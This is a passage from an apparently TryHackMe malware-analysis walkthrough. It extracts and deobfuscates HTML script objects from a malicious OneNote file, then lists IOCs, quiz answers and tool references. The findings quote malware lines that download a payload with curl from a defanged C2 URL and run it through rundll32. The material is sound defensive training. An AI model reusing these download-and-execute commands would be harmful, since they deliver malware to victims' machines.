The output shows that this document contains 6 objects. We can look at each object one by one. By the looks of it, we can confirm that objects 5 and 6 seem to have HTML files.

Let's use the `-s` flag to select the 5th object and the `-d` flag to dump it on the screen.


This file looks like HTML code containing obfuscated JavaScript and VBScript. We will save it by using this command `python3 onedump.py -s 5 -d invoice.one > obj5` and open it in notepad using the command `notepad obj5`.


This code has some interesting obfuscated code. The code clearly uses a replace function to remove the string `5&` from the obfuscated. We will use CyberChef to replace and clear the code.


**Note**: CyberChef is placed on the Desktop.

Now the code makes more sense and it contains some important IOCs. Let’s summarize the findings:

- The OneNote document contains two suspicious HTML objects.
- This script contains the obfuscated code, and it's cleared out by removing `5&`.
- The script is writing the deobfuscated script to the registry entry `HKCU\\SOFTWARE\\Andromedia\\Mp4ToAvi\\Values`
- Runs the script.
- C2 domain is `hxxps[:]//unitedmedicalspecialties[.]com/T1Gpp/OI.png`.
- Downloads the payload using cURL and outputs the payload into index1.png → `curl.exe --output C:\\\\ProgramData\\\\index1.png --url " + url, 0);`
- Sleeps for 15000 ms using `sleep(15000)`.
- Runs the payload using rundll32 → `shell.shellexecute("rundll32", "C:\\ProgramData\\index1.png,Wind", "", "open", 3);`.
- Deletes the registry entry.

---------------------------------------------------------------------------------------

#### What is the value used in the sleep function?

Answer: `15000`

#### The cURL command is being used to download from a URL and saving the payload in a png file. What is that file name?

Answer: `index1.png`

#### How many objects are found in the invoice.one document?



Answer: `6`

### Task 10 - Office Docs Analysis

This was it for this room. In this room, we learned the following:

- The different document types.
- PDF structure.
- How to perform static analysis on documents like PDF, doc, and OneNote.

Advanced topics like performing dynamic analysis on malicious documents and performing deobfuscation of PowerShell, JavaScript, and VBScript code will be covered in future rooms. Do follow us on [Discord channel](https://discord.gg/tryhackme) or [Twitter account](http://twitter.com/realtryhackme) for the latest updates.

For additional information, please see the references below.

## References

- [Box-js - GitHub](https://github.com/CapacitorSet/box-js)
- [Didier Stevens Beta - GitHub](https://github.com/DidierStevens/Beta)
- [Didier Stevens Suite - GitHub](https://github.com/DidierStevens/DidierStevensSuite)
- [grep - Linux manual page](https://man7.org/linux/man-pages/man1/grep.1.html)
- [Malware - Wikipedia](https://en.wikipedia.org/wiki/Malware)
- [MalwareBazaar - Homepage](https://bazaar.abuse.ch/)
- [oledump.py - Homepage](https://blog.didierstevens.com/programs/oledump-py/)
- [oletools - GitHub](https://github.com/decalage2/oletools)
- [oletools - PyPI](https://pypi.org/project/oletools/)
- [PDF Tools - Didier Stevens - Homepage](https://blog.didierstevens.com/programs/pdf-tools/)
- [Peepdf-3 - GitHub](https://github.com/digitalsleuth/peepdf-3)
- [REMnux - Documentation](https://docs.remnux.org/)
- [REMnux - Homepage](https://remnux.org/)
- [String (computer science) - Wikipedia](https://en.wikipedia.org/wiki/String_(computer_science))
- [strings - Linux manual page](https://man7.org/linux/man-pages/man1/strings.1.html)
- [TrID - Homepage](https://www.mark0.net/soft-trid-e.html)
- [ViperMonkey - GitHub](https://github.com/decalage2/ViperMonkey)
- [wc - Linux manual page](https://man7.org/linux/man-pages/man1/wc.1.html)
